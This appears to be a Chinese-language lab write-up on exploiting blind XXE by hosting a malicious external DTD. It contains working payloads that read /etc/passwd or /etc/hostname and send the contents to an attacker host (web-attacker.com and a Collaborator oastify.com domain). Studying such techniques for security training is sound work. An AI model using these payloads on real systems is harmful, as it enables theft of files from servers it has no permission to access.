


# 知识点
通过带外技术检测盲目的 XXE 漏洞非常好，但它实际上并不能说明如何利用该漏洞。攻击者真正想要实现的是泄露敏感数据。这可以通过盲目的 XXE 漏洞来实现，但它涉及攻击者在他们控制的系统上托管恶意 DTD，然后从带内 XXE 有效负载中调用外部 DTD。<br />一个恶意 DTD 泄露 /etc/passwd 文件内容的示例如下：
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```
此 DTD 执行以下步骤：

- 定义一个名为 file 的 XML 参数实体，包含 /etc/passwd 文件的内容。
- 定义一个名为 eval 的 XML 参数实体，其中包含另一个名为 exfiltrate 的 XML 参数实体的动态声明。将通过向攻击者的 Web 服务器发出包含 URL 查询字符串中文件实体的值的 HTTP 请求来评估 exfiltrate 实体。
- 使用 eval 实体，这会导致执行 exfiltrate 实体的动态声明。
- 使用 exfiltrate 实体，以便通过请求指定的 URL 来评估其值。

然后，攻击者必须将恶意 DTD 托管在他们控制的系统上，通常是将其加载到他们自己的网络服务器上。例如，攻击者可能会在以下 URL 提供恶意 DTD：
```xml
http://web-attacker.com/malicious.dtd
```
最后，攻击者必须向易受攻击的应用程序提交以下 XXE 有效负载：
```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM
"http://web-attacker.com/malicious.dtd"> %xxe;]>
```
这个 XXE 有效负载声明了一个名为 xxe 的 XML 参数实体，然后使用 DTD 中的实体。这将导致 XML 解析器从攻击者的服务器获取外部 DTD 并内联解释它。然后执行恶意 DTD 中定义的步骤，并将 /etc/passwd 文件传输到攻击者的服务器。
> 注意
> 此技术可能不适用于某些文件内容，包括 /etc/passwd 文件中包含的换行符。这是因为一些 XML 解析器使用 API 来获取外部实体定义中的 URL，该 API 验证允许出现在 URL 中的字符。在这种情况下，可以使用 FTP 协议而不是 HTTP。有时，无法泄露包含换行符的数据，因此可以将 /etc/hostname 等文件作为目标。

# 思路
```xml
<!ENTITY % file SYSTEM "file:///etc/hostname">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://h5nlk0vuhkfc5qoev4mhvj4kpbv3js.oastify.com/?x=%file;'>">
%eval;
%exfil;
```
<br />
